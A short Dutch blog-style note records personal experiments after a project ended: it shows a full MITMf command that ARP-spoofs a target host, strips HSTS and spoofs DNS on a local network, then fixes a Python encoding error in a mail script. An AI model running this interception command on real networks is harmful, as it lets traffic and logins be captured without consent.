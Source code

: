 Het project is afgelopen. Maar dit houdt mij niet tegen om wat verder te experimenteren.

##MITMf
Ik heb de nieuwe versie van MITMf werkend gekregen op een VM met Kali op. In begin wat tegenslagen gehad nu werkt het beter dan vroeger.
De url's aanpassingen zijn net iets subtieler :)

Voor de installatie verwijs ik naar de GitHub pagina van MITMf.

> python mitmf.py -i eth0 --spoof --arp --hsts --dns --gateway 192.168.2.1 --target 192.168.2.8

##Mailme 
Ik kreeg een error omdat ik het e-mail adres had aangepast! Een encoding fout (non ascii character xc3)...</br>
Simpele oplossing dit van boven zetten in script:

> \# -\*- coding: utf-8 -\*- 
